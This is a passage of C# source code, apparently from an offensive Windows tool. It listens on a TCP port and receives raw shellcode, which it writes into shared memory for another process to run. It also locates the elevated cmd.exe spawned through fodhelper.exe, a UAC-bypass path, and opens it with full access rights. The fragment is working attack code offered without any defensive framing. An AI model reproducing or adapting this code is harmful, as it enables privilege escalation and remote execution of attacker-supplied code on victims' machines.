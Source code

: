 ```c#
            client.StartInfo.UseShellExecute = false;
            
            client.Start();

            pipeServer.DisposeLocalCopyOfClientHandle();
        }
    }

    static void ReverShell(MemoryMappedFile mmf,AutoResetEvent handle)
    {
        IPHostEntry ipHost = Dns.GetHostEntry(Dns.GetHostName());
        IPAddress ipAddress = ipHost.AddressList[1];
        IPEndPoint localEndpoint = new IPEndPoint(ipAddress, 8080);

        Socket s = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
        s.Bind(localEndpoint);
        s.Listen(5);

        // Accept incomming connection
        Socket handler = s.Accept();
        byte[] bytes = new byte[1024];
        byte[] shellcode;

        //Save the incomming bytes to a byte array to execute
        while (true)
        {
            int bytesRec = handler.Receive(bytes);
            shellcode = new byte[bytesRec];
            Buffer.BlockCopy(bytes, 0, shellcode, 0, bytesRec);
            break;
        }

        MemoryMappedViewStream stream = mmf.CreateViewStream(0,4+shellcode.Length-1);
        stream.Seek(0, SeekOrigin.Begin);
        byte[] length = BitConverter.GetBytes(shellcode.Length - 1);
        stream.Write(length,0,length.Length);
        stream.Write(shellcode, 0, shellcode.Length-1);
        handle.Set();
        while (true) ;
    }

    //Return the process id the process spawned by running fodhelper.exe i.e the cmd.exe running with elevated privs.
    // Refer : https://stackoverflow.com/questions/17922725/monitor-child-processes-of-a-process
    static IntPtr GetChildProcess(Process parentProcess)
    {
        int i = 0;
        ManagementObjectSearcher mo = new ManagementObjectSearcher(String.Format("Select * from Win32_Process Where ParentProcessID={0}", parentProcess.Id));
        foreach(ManagementObject m in mo.Get()){
            i = Convert.ToInt32(m["ProcessID"]);
        }
        if (i == 0)
        {
            System.Console.WriteLine("[!] Error getting the child process handle");
            return IntPtr.Zero;
        }
        else
        {
            IntPtr child = OpenProcess(PROCESS_ALL_ACCESS, false, (UInt64)i);
            return child;
        }
    }
```